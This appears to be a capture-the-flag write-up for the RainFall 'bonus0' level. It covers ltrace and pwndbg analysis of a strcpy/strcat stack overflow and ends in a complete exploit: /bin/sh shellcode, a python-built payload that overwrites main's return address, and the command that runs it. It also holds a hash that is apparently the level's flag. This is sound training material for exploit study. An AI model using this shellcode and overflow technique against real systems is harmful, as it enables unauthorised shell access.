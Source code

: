 bonus0:f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

# Reconnaissance 

```
bonus0@RainFall:~$ ltrace ./bonus0 AAAA BBBB
__libc_start_main(0x80485a4, 1, 0xbffff7e4, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - 
)                                                                                                = 4
read(0, AAAA
"AAAA\n", 4096)                                                                                    = 5
strchr("AAAA\n", '\n')                                                                                     = "\n"
strncpy(0xbffff6c8, "AAAA", 20)                                                                            = 0xbffff6c8
puts(" - " - 
)                                                                                                = 4
read(0, BBBB
"BBBB\n", 4096)                                                                                    = 5
strchr("BBBB\n", '\n')                                                                                     = "\n"
strncpy(0xbffff6dc, "BBBB", 20)                                                                            = 0xbffff6dc
strcpy(0xbffff716, "AAAA")                                                                                 = 0xbffff716
strcat("AAAA ", "BBBB")                                                                                    = "AAAA BBBB"
puts("AAAA BBBB"AAAA BBBB
)                                                                                          = 10
+++ exited (status 0) +++
```

ask for 2 input => read 4096 bytes
copy 20 first bytes to `0xbffff6c8` for the first input and to `0xbffff6dc` for the second
address main buffer = `0xbffff736`

found 2 functions => `p` and `pp`

# Test

first input => 20 * "A"
second input => 19 * "B" + "\n"

```
pwndbg> x/12w 0xff963e88
0xff963e88:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963e98:     0x41414141      0x00000001      0x08048034      0x00000000
0xff963ea8:     0xf7f66000      0x00000000      0x00000000      0xf7f22000
```
after both inputs
```
pwndbg> x/12w 0xff963e88
0xff963e88:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963e98:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ea8:     0x42424242      0x00424242      0x00000000      0xf7f22000
```

copy in main buffer
```
pwndbg> x/12x 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x00424242      0x20000000      0x2000f7f2
```

space added to main buffer
```
pwndbg> x/12w 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x20424242      0x20000000      0x2000f7f2
```

cat b at the end of main buffer, main buffer 59 bytes long, supposed to be 42 bytes long
```
pwndbg> x/16x 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x20424242      0x42424242      0x42424242
0xff963f06:     0x42424242      0x42424242      0x00424242      0x3fb40000
```

We find out that we can overwrite the return pointer of main: 5 last bytes are at the return pointer

# Exploit

payload => 
    first input: 20 first bytes of shellcode + padding to fill up the buffer + newline
`\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89`
    second input: 19 bytes (remaining bytes for shellcode + padding (8 bytes) + address main buffer + 1)
`\xc2\x6a\x0b\x58\xcd\x80` + 8 * "C" + 4 bytes address + random char

main buffer address => `0xbffff736` got with ltrace

shellcode => `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80`

payload template => `python -c 'print "A" * 4091 + "XXXX\x0a" + 14 * "C" + "BBBBD"' > payload`

payload => `python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89" + "A" * 4075 + "\x0a" + "\xc2\x6a\x0b\x58\xcd\x80" + 8 * "C" + "\x36\xf7\xff\xbf" + "D"' > /tmp/payload`

`cat /tmp/payload - | ./bonus0`
